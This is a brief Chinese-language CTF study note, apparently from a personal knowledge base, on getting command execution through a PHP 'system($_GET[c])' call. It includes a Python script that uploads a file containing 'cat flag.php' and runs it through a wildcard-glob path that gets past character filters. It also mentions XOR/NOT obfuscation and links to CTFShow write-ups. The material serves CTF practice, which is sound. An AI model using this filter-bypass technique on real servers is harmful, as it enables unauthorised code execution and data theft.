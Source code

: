 tags:: CTF/RCE

- # 参考
	- [[CTF/WP/CTFShow/web55]]
- # 方式一
	- 对于这样的语句：`system($_GET[c]);`
	- 可以执行上传的文件缓存
	- ```python
	  while True:
	      r = requests.post(
	          url,
	          params = {
	              "c": ". /[_-{][_-{][_-{]/[_-{][_-{][_-{]?????[@-[]"
	          },
	          files={
	              "file":("a.txt", "cat flag.php")
	          }
	      )
	      if r.text:
	          break
	  
	  print(r.text)
	  ```
- # 方式二
	- 使用异或、取反等操作
	- {{embed ((63bc02d6-35cc-4fb7-9f4e-21386299fd6f))}}
- # 方式三
	- [[CTF/WP/CTFShow/web57]]